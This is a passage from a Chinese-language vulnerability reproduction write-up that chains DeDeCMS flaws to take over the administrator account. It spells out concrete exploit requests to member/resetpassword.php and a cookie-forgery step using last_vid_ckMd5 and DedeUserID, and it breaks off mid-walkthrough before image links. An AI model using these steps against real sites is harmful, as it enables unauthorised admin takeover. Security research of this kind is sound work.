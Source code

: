 在DeDeCMS的设计中，admin被设置为不可从前台登陆，但是当后台登陆admin账户的时候，前台同样会登陆管理员账户。

而且在前台的修改密码接口，如果提供了旧密码，admin同样可以修改密码，并且这里修改密码会同步给后台账户。

通过3个漏洞配合，我们可以避开整个漏洞利用下的大部分问题。

前台任意用户密码修改漏洞->修改admin密码，前台任意用户登录漏洞->登陆admin账户，通过刚才修改的admin密码，来重置admin账户密码。

# 0x03 漏洞复现

## 1、 登陆admin前台账户

安装DeDeCMS
![image.png-204.3kB][2]

注册用户名为000001的账户

![image.png-87.2kB][3]

由于是本地复现漏洞，所以我们直接从数据库中修改为审核通过
![image.png-58.8kB][4]

访问
```
http://your_website/member/index.php?uid=0000001
```

![image.png-375.6kB][5]

获取cookie中`last_vid_ckMd5`值，设置

```
DeDeUserID_ckMd5为刚才获取的值，并设置DedeUserID为0000001
访问
http://your_website/member/
```
![image.png-295.3kB][6]

## 2、修改admin前台登陆密码

使用DeDeCMS前台任意用户密码修改漏洞修改admin前台密码。
构造漏洞利用请求

```
http://yourwebsite/member/resetpassword.php

dopost=safequestion&safequestion=0.0&safeanswer=&id=1
```
![image.png-62kB][7]

从Burp获取下一步利用链接
```
/member/resetpassword.php?dopost=getpasswd&id=1&key=nlszc9Kn
```
![image.png-242.2kB][8]


  [1]: http://static.zybuluo.com/LoRexxar/fhs5a1xzcs9wlmo79dz1fa7t/image.png
  [2]: http://static.zybuluo.com/LoRexxar/35x2i03cf1o6dx5zinorhxkg/image.png
  [3]: http://static.zybuluo.com/LoRexxar/i5cw04ts7pwt2knzqdvwsxa9/image.png
  [4]: http://static.zybuluo.com/LoRexxar/cvx4w4vakv5zawbqbn5blw9a/image.png
  [5]: http://static.zybuluo.com/LoRexxar/baigsn6cfc45rqqdp2ij002z/image.png
  [6]: http://static.zybuluo.com/LoRexxar/m6cdhwm8x5fru0ghzteugskb/image.png
  [7]: http://static.zybuluo.com/LoRexxar/r3vnslnl4xvhgceu63fx2ams/image.png
  [8]: http://static.zybuluo.com/LoRexxar/ed4f7dpso9ibg5ppwgct82m5/image.png
  [9]: http://static.zybuluo.com/LoRexxar/3hc7ji53z9l39rckak3ezqsu/image.png
  [10]: http://static.zybuluo.com/LoRexxar/y61j1o170sf6nwmwkn4gop45/image.png
  [11]: http://static.zybuluo.com/LoRexxar/z0vs7wayrvpcwctxbtc0szau/image.png
  [12]: http://static.zybuluo.com/LoRexxar/r4505g75o8jkyp8gn9iutgx4/image.png
  [13]: http://static.zybuluo.com/LoRexxar/c0nkya1tqtl2huoc4hhj0el9/image.png
  [14]: http://static.zybuluo.com/LoRexxar/fc0z0lfq4jdnk0td1abbhdyk/image.png
  [15]: http://static.zybuluo.com/LoRexxar/mmf74nzg4idqncfcku6iqny3/image.png
  [16]: http://static.zybuluo.com/LoRexxar/vnj84gtz8bdknys5m7fa290x/image.png
  [17]: http://static.zybuluo.com/LoRexxar/zvoi03jzfdaaml0dfoqhnlq0/image.png
  [18]: http://static.zybuluo.com/LoRexxar/465zcukntsl4x56x6y0fzlzx/image.png
  [19]: http://static.zybuluo.com/LoRexxar/e9c2lkab7t9j2g9lblrsk9be/image.png
  [20]: http://static.zybuluo.com/LoRexxar/7egs2kovzmftad0551ny60ez/image.png
  [21]: http://static.zybuluo.com/LoRexxar/2mql17fthqbkiu6z8scjwgai/image.png
  [22]: http://static.zybuluo.com/LoRexxar/2dj52izgb34tpgvhu6s9p8cv/image.png